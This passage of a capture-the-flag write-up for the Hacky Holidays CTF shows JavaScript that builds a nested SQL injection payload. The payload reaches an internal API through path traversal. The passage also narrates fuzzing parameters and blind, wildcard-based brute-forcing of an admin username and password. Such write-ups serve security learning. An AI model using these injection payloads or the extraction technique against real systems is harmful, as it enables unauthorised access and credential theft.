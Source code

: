 ```javascript
sql = `' union all select "3' union all select 1, 2, '../api/user?id=1' -- ", 3, 'test' -- `;
encodeURI(`https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=${sql}`);
```
[Resulting link](https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash='%20union%20all%20select%20%223'%20union%20all%20select%201,%202,%20'../api/user?id=1'%20--%20%22,%203,%20'test'%20--%20)
[Image link](https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLy4uXC9hcGlcL3VzZXI/aWQ9MSIsImF1dGgiOiI5ODZhNDA5ODY3ZDljYmVlOTVmZDg1MDFmYmEwMTFmMyJ9)
{F1138536}

Referencing the previous table for API status codes, `id` apparently isn't valid. Bah, let's fuzz it. 

\* **Several hours of intense script writing later** *

Armed with a node.js script, we can now automate visiting links and gathering data, thus enabling fuzzing. The script is nothing fancy and is basically the previously mentioned encoding combined with fetch, accessible from the command line for ease of use.

Fuzzing for parameters, I find that the `user` endpoint accepts `username` and `password` (and `0`, which in hindsight probably is just the start of some other parameter I didn't find).

\* **Several hours spent passionately trying to brute-force `username` and `password` later** *

Empty handed, I start looking for other endpoints and discover two more by fuzzing: `ping` and `sleep`. Both return `Invalid content type` when accessed through `picture` payloads. Huh. Normally at least the `ping` endpoint would return data - maybe the `picture` endpoint expects actual image data? None the wiser, I again go back through the recon challenge, checking for missed things. Not sure exactly why, but for some reason, my mind gets stuck on SQLi. Since we have already had two layers of SQLi, maybe there's another? Maybe we can extract a user by shoving a `%` in the `username` parameter, combining it with the error message (invalid content type) from `picture`? Might as well try!

Change the user part of the SQLi to `user?username=%` and generate the links like before:
[Resulting link](https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=%27%20union%20all%20select%20%223%27%20union%20all%20select%201,%202,%20%27../api/user?username=%25%27%20--%20%22,%203,%20%27test%27%20--%20)
[Image link](https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLy4uXC9hcGlcL3VzZXI/dXNlcm5hbWU9JSIsImF1dGgiOiIzYjZkNmVmOGRkN2JiNzUxZmI1ZTIwMDJhOGRhZDdhMSJ9)
{F1138662}
If there is another SQLi, this is definitely in line with how `ping` behaves - maybe we can use it as a boolean and extract the username? Let's try `a%`:
`Expected HTTP status 200, Received: 204`
{F1138667}
[same procedure for b-f, all resulting in "Received: 204"]
`g%`:
{F1138662}
Oh, looks like it is usable and the first letter of username is a lowercase `g`!

\* **Intense script writing resumes - adding username and password brute-forcing to the script** *

Letting the script run, it finally discovers that the `username` is likely to be `grinchadmin` and the password `s4nt4sucks`.
